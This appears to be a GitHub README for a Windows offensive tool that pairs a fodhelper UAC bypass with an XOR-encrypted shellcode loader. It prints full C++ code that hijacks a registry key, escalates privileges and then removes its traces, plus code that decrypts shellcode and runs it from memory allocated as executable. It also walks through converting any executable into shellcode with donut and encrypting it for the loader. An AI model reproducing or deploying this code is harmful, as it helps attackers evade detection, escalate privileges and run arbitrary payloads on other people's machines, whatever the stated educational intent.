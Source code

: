 # L3582-490DER

## Overview
This project contains two main components: a C++ UAC bypass demonstration and a Python shellcode encryption utility. **This is for educational purposes only** and was developed by ABOLHB to explore Windows API concepts and security mechanisms.

## DISCLAIMER
**I, 3582-490, created this code solely for educational and research purposes. I do not endorse, encourage, or take responsibility for any misuse of this code. Unauthorized use of these techniques against systems you don't own is illegal and unethical. Use this knowledge responsibly and only in environments where you have explicit permission.**

## Project Structure

### 1. L3582-490DER.cpp
This C++ code demonstrates various Windows API concepts including potential UAC bypass techniques (commented out for safety).

#### UAC Bypass Code Explanation:
```cpp
// UAC bypass technique using fodhelper (commented out for safety)
/*
void mason__xa() {
    // Creates registry entries to hijack the fodhelper.exe UAC bypass
    HKEY mason__xb; // Registry key handle
    wchar_t mason__xc[MAX_PATH]; // Buffer for current executable path
    
    // Get the path of the current executable
    GetModuleFileNameW(NULL, mason__xc, MAX_PATH);
    
    // Create or open registry key for fodhelper hijack
    RegCreateKeyExW(HKEY_CURRENT_USER,
        L"Software\\Classes\\ms-settings\\shell\\open\\command",
        0, NULL, 0, KEY_WRITE, NULL, &mason__xb, NULL);
    
    // Set the default value to point to our executable
    RegSetValueExW(mason__xb, L"", 0, REG_SZ, (BYTE*)mason__xc, (wcslen(mason__xc) + 1) * sizeof(wchar_t));
    
    // Clear the DelegateExecute value to ensure our command runs
    RegSetValueExW(mason__xb, L"DelegateExecute", 0, REG_SZ, (BYTE*)L"", sizeof(wchar_t));
    
    // Launch fodhelper.exe which will execute our code with elevated privileges
    ShellExecuteW(NULL, L"open", L"fodhelper.exe", NULL, NULL, SW_HIDE);
    
    // Wait for execution to complete
    Sleep(3000);
    
    // Clean up registry entries to avoid detection
    RegDeleteTreeW(HKEY_CURRENT_USER, L"Software\\Classes\\ms-settings");
}

// Function to check if the current process has admin privileges
bool mason__xg() {
    BOOL mason__xh = FALSE; // Admin check result
    SID_IDENTIFIER_AUTHORITY mason__xi = SECURITY_NT_AUTHORITY; // NT authority
    PSID mason__xj; // Group SID

    // Create a SID for the Administrators group
    if (AllocateAndInitializeSid(&mason__xi, 2, SECURITY_BUILTIN_DOMAIN_RID,
        DOMAIN_ALIAS_RID_ADMINS, 0, 0, 0, 0, 0, 0, &mason__xj)) {
        // Check if current token is member of Admin group
        CheckTokenMembership(NULL, mason__xj, &mason__xh);
        FreeSid(mason__xj); // Free the SID
    }
    return mason__xh; // Return admin status
}
*/
```

#### Shellcode Execution Code Explanation:
```cpp
// Main function demonstrating XOR decryption and execution
int WINAPI WinMain(HINSTANCE mason__xk, HINSTANCE mason__xl, LPSTR mason__xm, int mason__xn) {
    // The commented section would check for admin privileges and attempt UAC bypass if not admin
    // if (!mason__xg()) {
    //    mason__xa();
    //    return 0;
    // }
    
    std::string mason__xd; // Unused string variable
    
    // Encrypted shellcode using XOR cipher (example values)
    unsigned char mason__xe[] = { 0x42, 0x6A, 0x75, 0xAA, 0xAA, 0x6A, 0x75, 0xAA };
    
    unsigned char mason__xf = 0xAA; // XOR decryption key
    
    // Decrypt the shellcode using XOR operation
    for (int mason__xi = 0; mason__xi < sizeof(mason__xe); ++mason__xi) {
        mason__xe[mason__xi] ^= mason__xf; // XOR each byte with key
    }
    
    // Allocate executable memory for the shellcode
    void* mason__xj = VirtualAlloc(0, sizeof(mason__xe), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    
    // Copy decrypted shellcode to executable memory
    memcpy(mason__xj, mason__xe, sizeof(mason__xe));
    
    // Execute the shellcode by casting memory to function pointer and calling it
    ((void(*)())mason__xj)();
    
    return 0;
}
```

### 2. ShellCodeXOR.py
This Python utility encrypts binary files (like shellcode) using XOR encryption for use in the C++ program.

#### Features:
- XOR encryption with customizable key (default 0xAA)
- Converts encrypted data to C-style array format
- Handles file input with validation
- Generates output ready for use in C++ programs

## How to Use

### Prerequisites
1. Download [donut](https://github.com/TheWover/donut/releases/download/v1.1/donut_v1.1.zip) to generate shellcode from executables
2. Python 3.x installed for the encryption script

### Step-by-Step Process

1. **Generate shellcode from an executable using donut:**
   ```
   donut.exe -i your_file.exe -o output.bin
   ```

2. **Encrypt the shellcode using the Python utility:**
   ```
   python ShellCodeXOR.py
   ```
   Follow the prompts to select your .bin file

3. **Replace the encrypted array in the C++ code:**
   - Copy the output from output.txt
   - Replace the `mason__xe` array in L3582-490DER.cpp with your encrypted shellcode

4. **Compile the C++ code:**
   - Use a C++ compiler like MinGW or Visual Studio
   - Ensure you link against the necessary libraries (Windows.h, etc.)

## Technical Details

### XOR Encryption
The project uses a simple XOR cipher with a single-byte key (0xAA) for demonstration purposes. In real-world scenarios, more robust encryption should be used.

### Memory Execution
The code uses `VirtualAlloc` with `PAGE_EXECUTE_READWRITE` permissions to allocate memory that can execute code. This technique is commonly monitored by security software.

### UAC Bypass (Commented Out)
The commented UAC bypass technique exploits the fodhelper.exe mechanism by creating specific registry entries. This technique is well-documented and likely detected by modern security solutions.

## Legal and Ethical Considerations

This code is provided for educational purposes only. Before using any of these techniques:

1. Ensure you have explicit written permission to test on the target system
2. Understand that these techniques may violate terms of service
3. Be aware that many of these methods are detected by modern security solutions
4. Never use this knowledge to harm others or disrupt systems

## About the Author

I'm 3582-490, a security enthusiast interested in understanding Windows internals and security mechanisms. I believe that understanding how systems can be exploited is essential to defending them effectively.

## License

This project is provided for educational purposes only. No license is granted for commercial use or redistribution.
